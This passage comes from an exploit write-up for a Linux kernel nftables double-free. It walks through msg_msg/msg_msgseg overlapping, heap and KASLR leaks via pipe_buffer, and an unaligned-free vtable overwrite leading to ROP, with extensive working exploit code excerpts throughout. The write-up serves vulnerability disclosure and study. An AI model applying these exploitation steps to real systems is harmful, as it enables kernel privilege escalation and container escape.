

In summary, the `kmalloc-cg-1k` slabs are filled by marked `struct msg_msg` objects and the `kmalloc-cg-512` slabs are also filled by `struct msg_msg` except the two free holes for double-freed chunks.

### 6.3 Triggering the vulnerability for overlapping chunks

- [exploit/extra-refined/exploit.c#L780](../exploit/extra-refined/exploit.c#L780)
```c
nl = mnl_socket_open(NETLINK_NETFILTER);
if (nl == NULL)
{
	err(1, "Cannot into mnl_socket_open()");
}

if (mnl_socket_bind(nl, 0, MNL_SOCKET_AUTOPID) < 0)
{
	err(1, "Cannot into mnl_socket_bind()");
}

// setup table and chains
printf("[*] prepare table and chain...\n");
prepare_nftables(nl);

printf("[*] now trigger UAF...\n");
trigger_uaf(nl, NOCG_TARGET_SET_SIZE);
```
Then, we trigger the vulnerability. For that, we implemented `prepare_nftables`
and `trigger_uaf`. Due to its complexity, we did not include this one in this
documentation. So please refer to [our exploit code](../exploit/extra-refined/exploit.c). After that, we
can create the double-freed chunks in the `kmalloc-cg-512` cache.

- [exploit/extra-refined/exploit.c#L798](../exploit/extra-refined/exploit.c#L798)
```c
// spary msg_msg with unique types
for (int i = 0; i < 3; i++)
{
	memset(buf, 0, CG_MSG_MSG_SIZE);
	if (msgqids1[i] < 0)
		continue;
	if (send_msg(msgqids1[i], buf, CG_MSG_MSG_SIZE - 48, i + 1) < 0)
		perror("msgsnd");
}

// and check duplicate
int key1, key2;
memset(msg_buf, 0, sizeof(msg_buf));
ret = msgrcv(msgqids1[0], msg, sizeof(msg_buf), 0, IPC_NOWAIT | MSG_COPY);
if (ret < 0)
	perror("msgrcv");
key1 = msg->mtype;

memset(msg_buf, 0, sizeof(msg_buf));
ret = msgrcv(msgqids1[2], msg, sizeof(msg_buf), 0, IPC_NOWAIT | MSG_COPY);
if (ret < 0)
	perror("msgrcv");
key2 = msg->mtype;

if (key1 != key2)
{
	err(1, "fail to get double free...");
}
printf("[+] we have duplicated msg_msg! : %d, %d, %d\n", key1, key2, ret);
``` 



After we trigger double free, we can reclaim the double-freed chunks by
allocating three 512-sized `struct msg_msg` objects through `msgsnd` syscall.
In particular, we reclaim the double-freed chunks placed in the form of `A -> B -> A ...` by `msgqids1[0]`, `msgqids1[1]`, and `msgqids1[2]`, respectively. Thus, we can get
overlapping `struct msg_msg` objects through `msgqids1[0]` and `msgqids1[2]`.

### 6.4 Heap leak

With the overlapping chunks from the previous step, the exploit performs slab address leak for further exploit steps.

- [include/linux/msg.h:msg_msg](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/include/linux/msg.h?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n9)
```c
struct msg_msg {
	struct list_head m_list;
	long m_type;
	size_t m_ts;		/* message text size */
	struct msg_msgseg *next;
	void *security;
	/* the actual message follows immediately */
};
```
- [ipc/msgutil.c:msg_msgseg](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/ipc/msgutil.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n37)
```c
// [1]
struct msg_msgseg {
	struct msg_msgseg *next;
	/* the next part of the message follows immediately */
};

#define DATALEN_MSG	((size_t)PAGE_SIZE-sizeof(struct msg_msg))
#define DATALEN_SEG	((size_t)PAGE_SIZE-sizeof(struct msg_msgseg))
```
- [ipc/msgutil.c:alloc_msg()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/ipc/msgutil.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n46)
```c
static struct msg_msg *alloc_msg(size_t len)
{
	struct msg_msg *msg;
	struct msg_msgseg **pseg;
	size_t alen;

	alen = min(len, DATALEN_MSG);
	msg = kmalloc(sizeof(*msg) + alen, GFP_KERNEL_ACCOUNT);
	if (msg == NULL)
		return NULL;

	msg->next = NULL;
	msg->security = NULL;

	len -= alen;
	pseg = &msg->next;
	while (len > 0) {
		struct msg_msgseg *seg;

		cond_resched();

		alen = min(len, DATALEN_SEG);
		seg = kmalloc(sizeof(*seg) + alen, GFP_KERNEL_ACCOUNT); // [2]
		if (seg == NULL)
			goto out_err;
		*pseg = seg;
		seg->next = NULL;
		pseg = &seg->next;
		len -= alen;
	}

	return msg;

out_err:
	free_msg(msg);
	return NULL;
}
```
We utilize `struct msg_msgseg`, which can be allocated with a specified size and gives control over the entire slab chunk except for the first 8 bytes [1]. This object is straightforward to allocate since it is allocated with the same routines as `struct msg_msg` [2].

- [exploit/extra-refined/exploit.c#L828](../exploit/extra-refined/exploit.c#L828)
```c
// free the overlapping one and reclaim it with msg_msgseg
memset(buf, 0, sizeof(buf));
uintptr_t buf_ptr = (uintptr_t)buf - 48;
// write the fake size
*(uintptr_t *)(buf_ptr + 0x1000) = 0;                  // mlist.prev
*(uintptr_t *)(buf_ptr + 0x1000 + 8) = 2;              // m_type
*(uintptr_t *)(buf_ptr + 0x1000 + 0x10) = 0x1000 - 48; // m_ts (PG_SIZE - sizeof(struct msg_msg))
*(uintptr_t *)(buf_ptr + 0x1000 + 0x18) = 0;           // next
*(uintptr_t *)(buf_ptr + 0x1000 + 0x20) = 0;           // security

ret = msgrcv(msgqids1[2], msg, sizeof(msg_buf) - 1, 0, IPC_NOWAIT | MSG_NOERROR); // [1]
if (ret < 0)
	perror("msgrcv");
// PG_SIZE - sizeof(struct msg_msg) - TARGET_SIZE - sizeof(struct msg_msgseg)
if (send_msg(msgqid3, buf, 0x1000 + (CG_MSG_MSG_SIZE - 0x10) - 48 - 8, 1) < 0) // [2]
	perror("msgsnd");
```

To leak a heap address (`kmalloc-1k-cg`), we overlap `struct msg_msg` with `struct msg_msgseg`. For that, we first [1] free `struct msg_msg` held by `msgqids[2]` and [2] reclaim it with `struct msg_msgseg` through `msgqid3`. We can allocate the `x`-sized `struct msg_msgseg` by sending msg whose length is `DATALEN_MSG` (i.e., `PG_SIZE` - `sizeof(struct msg_msg)`) - `x` - `sizeof(struct msg_msgseg)` through `msgsnd` syscall. Note that we can still access `struct msg_msg` that is overlapped with `struct msg_msgseg` through `msgqids[0]`.

Using this overlap, we corrupt `struct msg_msg`. Since we can control `struct msg_msgseg` object's content except for the first 8 bytes (used for `next` field), we can overwrite the overlapped `struct msg_msg`'s header except the `m_list.next` field, which will be overwritten by `NULL`. We set the header of `struct msg_msg` as follows.
- `m_list.next` will be overwritten to `NULL` by the `next` fields of `struct msg_msgseg`
- `m_list.prev` can be arbitrary values since it doesn't access by any routines unless the `struct msg_msg` is unlinked. Thus, we set it to `NULL`. 
- `m_type` also can be an arbitrary value. We set it to `2`.
- `m_ts` is the key part since it determines the total length of the msg stored into the current `struct msg_msg`. We set it to `0x1000` to get `kmalloc-cg-512` cache overread to further exploit steps.
- `next` and `security` fields are unused for this steps. They are implicitly set to `NULL`.

Now we can get slab OOB read from `kmalloc-cg-512` through `struct msg_msg` held by `msgqid[0]`.
- [exploit/extra-refined/exploit.c#L845](../exploit/extra-refined/exploit.c#L845)
```c
memset(msg_buf, 0, sizeof(msg_buf));
ret = msgrcv(msgqids1[0], msg, 0x1000 - 48, 0, IPC_NOWAIT | MSG_COPY);
if (ret < 0)
	perror("msgrcv");

uintptr_t small_msg_msg_addr = -1;
printf("[*] overlapped by msg_msgseg : size %d\n", ret);
uintptr_t *payload = (uintptr_t *)msg->mtext;
// candidate offsets by spray layout
// iterate through size of msg_msg
for (size_t i = 0x1d0 / 8; i < ret / 8; i += 64)
{
	if (payload[i] && payload[i + 1])
	{
		small_msg_msg_addr = payload[i + 1];
		break;
	}
}

if (small_msg_msg_addr == -1)
{
	err(1, "fail to leak msg_msg...");
}
printf("[+] 1k-sized msg_msg addr : 0x%llx\n", small_msg_msg_addr);
```
With this, we are highly likely to get `kmalloc-cg-1k` chunk's address from the `m_list.prev` field of the `struct msg_msg` sprayed below by `msgqids2`. 




- [ipc/msgutil.c:copy_msg()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/ipc/msgutil.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n118)
```c
struct msg_msg *copy_msg(struct msg_msg *src, struct msg_msg *dst)
{
	struct msg_msgseg *dst_pseg, *src_pseg;
	size_t len = src->m_ts;
	size_t alen;

	if (src->m_ts > dst->m_ts)
		return ERR_PTR(-EINVAL);

	alen = min(len, DATALEN_MSG);
	memcpy(dst + 1, src + 1, alen);

	for (dst_pseg = dst->next, src_pseg = src->next;
	     src_pseg != NULL;
	     dst_pseg = dst_pseg->next, src_pseg = src_pseg->next) {

		len -= alen;
		alen = min(len, DATALEN_SEG);
		memcpy(dst_pseg + 1, src_pseg + 1, alen); // [1]
	}

	dst->m_type = src->m_type;
	dst->m_ts = src->m_ts;

	return dst;
}
```
Note that since the routines of `msgrcv` syscall used `memcpy`[1] rather than `copy_to_user` when the `MSG_COPY` flag is set, the overread across the boundary is not hindered even though `CONFIG_USERCOPY_HARDENED` is enabled. For your information, `CONFIG_USERCOPY_HARNDED` enables the mitigation that stops kernel overread with `copy_to_user`.

### 6.5 KASLR leak

In this step, with the achieved heap leaks, the exploit leaks a kernel base address to bypass KASLR.
- [exploit/extra-refined/exploit.c#L870](../exploit/extra-refined/exploit.c#L870)
```c
// re-reclaim with msg_msgseg to trigger free of 64-sized msg_msg
printf("[+] re-reclaim for 1k slab leak!\n");
memset(buf, 0, sizeof(buf));
buf_ptr = (uintptr_t)buf - 48;
// write the fake size
*(uintptr_t *)(buf_ptr + 0x1000) = 0;                                      // mlist.prev
*(uintptr_t *)(buf_ptr + 0x1000 + 8) = 2;                                  // m_type
*(uintptr_t *)(buf_ptr + 0x1000 + 0x10) = 0x1100;                          // m_ts
*(uintptr_t *)(buf_ptr + 0x1000 + 0x18) = small_msg_msg_addr + 0x400 - 48; // msg_msg->data  + 0x400 - 48 == msg_msgseg!

// PG_SIZE - sizeof(struct msg_msg) - TARGET_SIZE - sizeof(struct msg_msgseg)
memset(msg_buf, 0, sizeof(msg_buf));
ret = msgrcv(msgqid3, msg, 1, 1, IPC_NOWAIT | MSG_NOERROR);
if (ret < 0)
	perror("msgrcv");
if (send_msg(msgqid3, buf, 0x1000 + (CG_MSG_MSG_SIZE - 0x10) - 48 - 8, 1) < 0)
	perror("msgsnd");
```
The `next` field of `struct msg_msg` points to the `struct msg_msgseg` object and can be used for arbitrary read & free. We utilize this arbitrary read primitive to leak `kmalloc-cg-1k` slab contents with leaked slab address.

We set the header of `struct msg_msg` to leak `kmalloc-cg-1k` slab content as follows.
- `m_list.next` will be overwritten to `NULL` by the `next` fields of `struct msg_msgseg`.
- `m_list.prev` can be arbitrary values since it doesn't access by any routines unless the `struct msg_msg` is unlinked. Thus, we set it to `NULL`. 
- `m_type` also can be an arbitrary value. We set it to `2`.
- `m_ts` is set by 0x1100, which is enough size to read `struct msg_msgseg` through overwritten `next` field.
- `next` field is set by `leaked kmalloc-cg-1k chunk's address` + `chunk_size` - `sizeof(struct msg_msg)`. This is for totally controlling the `kmalloc-cg-1k` chunk located below by unaligned free and unaligned `struct msg_msg` techniques. Details will be explained later.
- `security` fields are unused for this steps. It is implicitly set to `NULL`.

The `struct msg_msgseg` that contains a fake `struct msg_msg` header is allocated through `msgqid3` and overwrites the `struct msg_msg` object.

- [exploit/extra-refined/exploit.c#L888](../exploit/extra-refined/exploit.c#L888)
```c
// we have leak now
// populate the lk-sized cg cache to prevent crash
for (size_t i = 20; i < MSG_MSG_SPRAY_CNT; i++)
{
	memset(msg_buf, 0, sizeof(msg_buf));
	ret = msgrcv(msgqids2[i], msg, sizeof(msg_buf), 2, IPC_NOWAIT);
	if (ret < 0)
		err(1, "msgrcv");
}
```
However, by the reclaimed double-freed chunks, the percpu freelist of `kmalloc-cg-512` cache is now corrupted, and the kernel may crash if the exploit or other tasks tries to allocate on `kmalloc-cg-512` caches. To prevent this, we freed the 512-sized `struct msg_msg` objects which are allocated in the [Heap grooming step](#63-heap-grooming). This creates enough chunks on the corresponding slab cache and prevents kernel crashes during and after the exploit, even when the allocation occurs on that cache. For more details, please refer [Abusing `CONFIG_SLAB_FREELIST_HARDENED` mitigation to aid exploitation section of novel-techniques.md](./novel-techniques.md#abusing-config_slab_freelist_hardened-mitigation-to-aid-exploitation).

- [exploit/extra-refined/exploit.c#L898](../exploit/extra-refined/exploit.c#L898)
```c
int upper_msg_msg_holder = -1;
int lower_msg_msg_holder = -1;
memset(msg_buf, 0, sizeof(msg_buf));
ret = msgrcv(msgqids1[0], msg, sizeof(msg_buf), 0, IPC_NOWAIT | MSG_COPY);
if (ret < 0)
	perror("msgrcv");
printf("[*] overlapped by msg_msgseg again : size %d\n", ret);
payload = (uintptr_t *)msg->mtext;
// for(size_t i = 0; i < ret / 8; i ++){
//     printf("%d : 0x%llx\n", i, payload[i]);
// }
if (payload[510] && payload[510] < MSG_MSG_SPRAY_CNT)
{
	upper_msg_msg_holder = msgqids2[payload[510]];
	printf("[*] 1k-sized upper msg_msg is holded by %dth msgq (msgq %d)\n", payload[510], upper_msg_msg_holder);
	// remove from spray list
	msgqids2[payload[510]] = -1;
}
if (payload[518] && payload[518] < MSG_MSG_SPRAY_CNT)
{
	lower_msg_msg_holder = msgqids2[payload[518]];
	printf("[*] 1k-sized lower msg_msg is holded by %dth msgq (msgq %d)\n", payload[518], lower_msg_msg_holder);
	// remove from spray list
	msgqids2[payload[518]] = -1;
}

if (upper_msg_msg_holder == -1 || lower_msg_msg_holder == -1)
{
	err(1, "fail to leak unaligned msg_msg...");
}
```
We can now leak contents of `kmalloc-cg-1k` slab from unaligned `struct msg_msgseg` pointed by the `next` field of `struct msg_msg`. The unaligned `struct msg_msgeg` would lie between two `struct msg_msg` objects. We need to identify which `struct msg_msg` objects are overlapped with the unaligned `struct msg_msgseg` object to control memory layout.



 To do this, we leak the contents of 1k-sized `struct msg_msg` objects via `struct msg_msgseg` and parse them for unique idx marked from [Heap grooming step](#63-heap-grooming). These marks serve as indicators, enabling us to locate the `upper_msg_msg_holder` and `lower_msg_msg_holder`, which are the message queue id holding `struct msg_msg` objects respectively.

- [include/linux/pipe_fs_i.h:pipe_buffer](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/include/linux/pipe_fs_i.h?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n26)
```c
struct pipe_buffer {
	struct page *page;
	unsigned int offset, len;
	const struct pipe_buf_operations *ops;
	unsigned int flags;
	unsigned long private;
};
```
Now we can spray the `struct pipe_buffer` objects to leak KASLR. the `struct pipe_buffer` object is used for the KASLR leak because it contains a vtable pointer in the `ops` field, which is located in the kernel image (`anon_pipe_buf_ops` by default).

- [fs/pipe.c:alloc_pipe_info()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/fs/pipe.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n782)
```c
struct pipe_inode_info *alloc_pipe_info(void)
{
	struct pipe_inode_info *pipe;
	unsigned long pipe_bufs = PIPE_DEF_BUFFERS;
	struct user_struct *user = get_current_user();
	unsigned long user_bufs;
	unsigned int max_size = READ_ONCE(pipe_max_size);

	pipe = kzalloc(sizeof(struct pipe_inode_info), GFP_KERNEL_ACCOUNT);

// ...
	pipe->bufs = kcalloc(pipe_bufs, sizeof(struct pipe_buffer),
			     GFP_KERNEL_ACCOUNT);
// ... 
}
```
- [fs/pipe.c:pipe_write()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/fs/pipe.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n415)
```c
// ...
			buf = &pipe->bufs[head & mask];
			buf->page = page;
			buf->ops = &anon_pipe_buf_ops;
			buf->offset = 0;
			buf->len = 0;
// ...
```

If we call `pipe` syscall, the `struct pipe_buffer` objects will be allocated.
Then, if we call `write` syscall to the pipe file descriptor, it will leave
vtable pointers to the `struct pipe_buffer` objects. It is worth noting that
these buffer objects are allocated in `kmalloc-cg-1k` slab (Actually, these
buffer objects can have variable sizes though).  

- [exploit/extra-refined/exploit.c#L929](../exploit/extra-refined/exploit.c#L929)
```c
// release the lower msg_msg and spray pipe_buf
memset(msg_buf, 0, sizeof(msg_buf));
ret = msgrcv(lower_msg_msg_holder, msg, sizeof(msg_buf), 0, IPC_NOWAIT);
if (ret < 0)
	perror("msgrcv");

for (int i = 0; i < 0x100; i++)
{
	if (pipe(pipefd[i]) < 0)
		err(1, "pipe()");
	write(pipefd[i][1], "aaaaaaaa", 8);
}
```
We free the `struct msg_msg` located below the unaligned `struct msg_msgseg` chunk through `lower_msg_msg_holder`, and then try to reclaim corresponding chunks with `struct pipe_buffer` objects by `pipe` syscall.

- [exploit/extra-refined/exploit.c#L942](../exploit/extra-refined/exploit.c#L942)
```c
// leak the kalsr slide with anon_pipe_buf_ops leak
uintptr_t kaslr_slide = -1;
uintptr_t anon_pipe_buf_ops_addr = -1;
memset(msg_buf, 0, sizeof(msg_buf));
ret = msgrcv(msgqids1[0], msg, sizeof(msg_buf), 0, IPC_NOWAIT | MSG_COPY);
if (ret < 0)
	perror("msgrcv");
payload = (uintptr_t *)msg->mtext;
// for(size_t i = 500; i < ret / 8; i ++){
//     printf("%d : 0x%llx\n", i, payload[i]);
// }

anon_pipe_buf_ops_addr = payload[513];
if ((anon_pipe_buf_ops_addr & 0xfff) != (curr_gadget->anon_pipe_buf_ops_offset & 0xfff))
{
	err(1, "fail to leak kaslr...");
}
printf("[+] anon_pipe_buf_ops_addr : %p\n", anon_pipe_buf_ops_addr);
kaslr_slide = anon_pipe_buf_ops_addr - curr_gadget->anon_pipe_buf_ops_offset;
printf("[+] kaslr slide : %p\n", kaslr_slide);
```
Now we can finally get the KASLR leak by reading `struct pipe_buffer` object through the unaligned `struct msg_msgseg` held by `msgqids1[0]`. Note that we used `MSG_COPY` flag with `msgrcv` syscall since we don't want the unaligned `struct msg_msgseg` chunk to be freed yet.



### 6.6 PC control for ROP

In this step, the exploit triggers RIP control through vtable overwrite and performs ROP for privilege escalation and container escape, with the heap leaks and KASLR leaks from previous steps.

- [exploit/extra-refined/exploit.c#L1027](../exploit/extra-refined/exploit.c#L1027)
```c
memset(msg_buf, 0, sizeof(msg_buf));
sleep(1);
ret = msgrcv(msgqids1[0], msg, 1, 0, IPC_NOWAIT | MSG_NOERROR);
if (ret < 0)
	perror("msgrcv");
payload = (uintptr_t *)msg->mtext;

// reclaim unaligned 1k msg_msg quickly!
spray_msgsnd(msgqids2, 0x100, 0x400 - 48, buf, 1, 3);
```
For that, first, the unaligned `struct msg_msgseg` chunk is freed through `msgqids1[0]` with `msgrcv` syscall. Note that current Linux's slub allocator implementation and even freelist hardening of the mitigation instance can't prevent this unaligned free primitive (refer [Bypassing `CONFIG_SLAB_FREELIST_HARDENED` freelist pointer validation mitigation via unaligned head section of novel-techniques.md](./novel-techniques.md#bypassing-config_slab_freelist_hardened-freelist-pointer-validation-mitigation-via-unaligned-head)).

After the unaligned chunk is freed, we spray the 1k-sized `struct msg_msg` objects that contain fake `ops`, kernel stack pivot gadget, and ROP payload through `msgqids2` to reclaim that unaligned chunk. Note that we set the unaligned chunk start as `original chunk boundary` - `sizeof(struct msg_msg)`. As a result, we can control the next slab chunk's content with msg payload. This unaligned msg_msg technique gives the powerful capability of overwriting the next chunk without crossing the slab chunk boundary or being hindered by `CONFIG_USERCOPY_HARDENED` config.

The `sleep` syscall is used to perform this free-reclaim sequence at the beginning of a given CPU time slice so that our freed chunk is not reclaimed intermediately by some other tasks.

